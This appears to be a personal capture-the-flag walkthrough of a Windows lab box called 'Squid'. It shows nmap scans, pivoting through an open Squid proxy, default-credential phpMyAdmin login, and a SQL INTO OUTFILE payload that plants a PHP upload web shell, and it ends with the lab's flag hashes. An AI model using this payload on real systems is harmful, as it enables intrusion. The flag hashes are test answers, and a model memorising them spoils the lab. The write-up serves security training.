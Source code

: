 # Win - Squid

---

### Host

```bash
192.168.245.189
```

### Scan

```bash
// Quick scan.
> nmap -sV -T4 192.168.245.189

// Full TCP scan.
> nmap -sCV -A -Pn -O -p- 192.168.245.189 -oN tcpnmap.md

// Full UDP scan.
> sudo nmap -sU -Pn 192.168.245.189 --top-ports=100 --reason -oN udpnmap.md

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC

Host script results:
| smb2-time: 
|   date: 2025-02-04T17:16:00
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

---

## Walkthrough

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image.png)

- by search, squid can be used as proxy, found on hacktricks, use squid as proxy

https://book.hacktricks.wiki/en/network-services-pentesting/3128-pentesting-squid.html?highlight=squid#basic-information

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image%201.png)

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image%202.png)

- phpmyadmin - default password → root : “ “
- phpmyadmin version 5.0.2

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image%203.png)

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image%204.png)

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image%205.png)

```bash
-> https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f

SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image%206.png)

![image.png](Win%20-%20Squid%2018d553bebf0f80f4b9a1f742ceccc134/image%207.png)

https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f

```bash
python3 spose.py --proxy http://192.168.245.189:3128 --target 192.168.245.189 

/--------------------------------------
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
--------------------------------------/

learning -> rlwarp
```

```bash
- local.txt : 26e2f239294af7ecd5e261827de3ba2d
- proof.txt : 4fd06171cd0323618567714a339b003c
```